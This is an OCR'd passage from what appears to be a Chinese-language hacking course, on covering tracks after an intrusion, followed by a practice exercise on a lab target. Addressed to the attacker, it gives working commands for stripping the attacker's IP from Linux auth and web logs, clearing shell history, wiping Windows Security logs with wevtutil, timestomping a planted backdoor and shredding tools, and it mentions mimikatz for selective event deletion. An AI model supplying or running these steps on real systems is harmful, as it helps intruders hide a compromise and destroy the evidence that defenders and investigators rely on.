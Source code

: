 * **Linux:**

  * **关键日志文件：**
    * `/var/log/auth.log` (Debian/Ubuntu) 或 `/var/log/secure` (RHEL/CentOS): 记录所有登录尝试，包括SSH。
    * `/var/log/syslog` 或 `/var/log/messages`: 通用系统日志。
    * `/var/log/apache2/access.log`, `/var/log/nginx/access.log`: Web访问日志。
    * `~/.bash_history`: 你执行的所有命令历史。
  * **清理技术：**
    1. `grep -v "Your_Attacker_IP" /var/log/auth.log > temp_log.log`
    2. `cat temp_log.log > /var/log/auth.log`
    3. `rm temp_log.log`
       这个过程将所有不包含你IP的日志行写入一个临时文件，然后用临时文件覆盖原始文件。
  * **清除命令历史：**
    `history -c && history -w`
    或者更彻底：`cat /dev/null > ~/.bash_history`
* **Windows:**

  * **事件查看器 (Event Viewer):** Windows日志系统非常复杂，分为安全、系统、应用程序等多个类别。
  * **命令行清理：**
    * `wevtutil.exe el`: 列出所有日志名称。
    * `wevtutil.exe cl Security`: 清除所有“安全”类别的日志。这动静太大，但有时是必要的。
  * **精准清除（高级）：** 需要专门的工具（如 `mimikatz`的事件模块）来删除特定的事件ID，这更隐蔽。

#### **3. 文件与工具清理**

* **篡改文件时间戳：**

  * 你上传了一个后门 `backdoor.sh`。它的创建时间会非常新，一眼就能看出来。
  * `touch -r /bin/ls /path/to/your/backdoor.sh`
  * 这条命令会将你的后门文件的时间戳（修改、访问、创建时间）变得和系统文件 `/bin/ls`一模一样。它就“隐身”在了成千上万的系统文件中。
* **安全删除：**

  * `rm` 命令只是在文件系统中做了一个“删除”标记，数据本身还在硬盘上，可以通过数据恢复工具找回。
  * `shred -u -z -n 5 /path/to/your/tool.exe`
    * `-n 5`: 用随机数据覆写5遍。
    * `-z`: 最后用0来覆写一遍，以隐藏覆写行为。
    * `-u`: 覆写后删除文件。
  * 经过 `shred`处理的文件，神仙也无法恢复。

#### **4. 实战演练**

**你的任务：** 在你完成模块四的靶机上：

1. 找出你的攻击IP地址。
2. 定位Web服务器的访问日志，并使用 `grep -v`方法，清除所有包含你IP的条目。
3. 执行 `history -c`清除你的bash历史。
4. 使用 `touch -r`命令，将你上传的 `linpeas.sh`的时间戳修改得和 `/etc/passwd`文件一样。
5. 使用 `shred`命令，安全删除 `linpeas.sh`。
6. **交付物：** 一份文档，记录你执行的每一条清理命令。

---

### **知识库模块：通用方法论与心智模型**

**目标：** 技术会过时，但思维方式永存。这是将你从“工匠”提升为“大师”的内核。
